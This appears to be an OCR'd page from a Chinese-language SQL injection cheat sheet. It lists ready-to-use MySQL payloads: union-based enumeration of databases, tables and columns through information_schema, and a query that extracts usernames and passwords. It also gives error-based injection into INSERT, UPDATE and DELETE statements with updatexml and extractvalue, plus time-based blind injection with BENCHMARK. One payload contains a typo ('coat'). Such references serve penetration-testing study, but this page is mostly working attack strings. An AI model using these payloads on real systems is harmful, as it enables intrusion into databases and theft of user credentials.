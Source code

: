 @@Uptime 服务器已经运行的时间   
通过id=instr(@@global.version,1)来获取global变量。@@global包含很多敏感信息，过滤了ascii,substr函数，仍可用instr来盲注。  

-------------------------------------------------------------------------------------------------------

### 可回显注入
 
从information_schema.columns可以查table_schema、table_name、column_name  
 
库  
`union select unhex(hex(group_concat(schema_name))) from information_schema.schemata`  
 
表  
`union select unhex(hex(group_concat(table_name))) from information_schema.tables where table_schema=0x(数据库名对应的十六进制）`  
 
字段  
`union select unhex(hex(group_concat(column_name))) from information_schema.columns where table_schema=0x(数据库名对应的十六进制) and table_name=0x(表名对应的十六进制）`  
 
查询数据（实例）  
`union select 1,2,3,4,concat(username,0x3a,password),6 from admin.users`  //获取到表、字段后，就可以查询所需信息了，如查询users库的admin表的用户名和密码  

插入数据（不用引号）  
```
INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72), 
char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72), 0x64)  
```

insert/update/delete 语句中注入  
`or updatexml(1,concat(0x7e,(version())),0) or`  
e.g   
INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or '', 'ohmygod_is_r00tgrok');  
`or extractvalue(1,concat(0x7e,database())) or`  
e.g   
UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or '' WHERE id=2 and username='Pseudo_Z';  
DELETE FROM users WHERE id=1 or extractvalue(1,coat(0x7e,database())) or '';   

------------------------------------------------------------------------------------------------------------

### 盲注查询
#### BENCHMARK() (M)
Basically, we are abusing this command to make MySQL wait a bit. Be careful you will consume web servers limit so fast!  

BENCHMARK(howmanytimes, do this)    

Real World Samples    
Are we root ? woot!     
`IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`  
Check Table exist in MySQL   
`IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`  
